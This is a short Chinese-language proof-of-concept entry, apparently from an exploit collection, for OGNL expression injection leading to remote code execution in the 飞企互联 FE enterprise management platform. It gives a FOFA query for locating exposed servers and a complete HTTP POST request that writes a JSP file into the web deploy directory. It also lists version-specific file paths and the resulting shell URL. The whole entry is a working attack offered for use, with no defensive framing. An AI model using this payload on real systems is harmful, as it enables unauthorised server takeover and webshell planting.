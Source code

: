 ## 飞企互联Ognl表达式注入导致RCE

## fofa
```
app="飞企互联-FE企业运营管理平台"
```

## poc
```
POST /common/common_sort_tree.jsp;.js HTTP/1.1
Host: xx.xx.xx.xx
Accept-Encoding: gzip, deflate
Content-Length: 174
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: close
Referer: http://oa.meitrack.com:9090/
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded

rootName={%25Thread.@fe.util.FileUtil@saveFileContext(new%20java.io.File("../server/default/deploy/fe.war/123.jsp"),new%20sun.misc.BASE64Decoder().decodeBuffer("d2hvYW1p"))%25}
```

## 版本文件路径
6.6
```
../web/fe.war/123.jsp
```
6.0
```
../server/default/deploy/fe.war/123.jsp
```

shell: http://xx.xx.xx.xx/123.jsp;
